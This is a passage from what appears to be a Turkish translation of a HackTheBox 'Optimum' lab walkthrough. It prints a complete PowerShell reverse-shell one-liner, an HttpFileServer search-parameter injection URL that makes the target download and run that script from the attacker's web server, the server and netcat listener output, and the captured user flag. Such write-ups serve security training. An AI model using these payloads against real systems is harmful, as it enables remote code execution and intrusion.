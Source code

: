 ```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Bunun bir kopyasını `rev.ps1` olarak kaydedeceğim (sadece talep etmek üzere olduğum URL'yi daha kolay hale getirmek için). Sonra bir Python web sunucusu başlatacağım ve ziyaret edeceğim:

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
```

Bu da Optimum'un web sunucusuna ulaşıp rev.ps1 dosyasını indirmesini (ilginç bir şekilde dört kez) tetikliyor:

```
oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
```

Dosya geri döndüğünde, Invoke-Expression'ın kısaltması olan IEX tarafından çalıştırılır ve shell dinleme nc'me geri bağlanır (bazı nedenlerden dolayı bu shell'de prompt sadece ilk komuttan sonra görünür):

```
oxdf@parrot$ sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49179
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```


 **`rlwrap`**
- **rlwrap** (Readline Wrapper), komut satırı uygulamaları için bir "readline" özelliği ekler. Yani, komut geçmişine erişim ve daha düzgün bir kullanıcı deneyimi sağlar. Özellikle reverse shell bağlantılarında kullanışlıdır, çünkü genellikle tab tamamlama veya komut geçmişi gibi özellikler eksik olur.

Bayrak adında küçük bir yazım hatası var, ancak onu alabilirim:

```
PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```


## Shell as SYSTEM
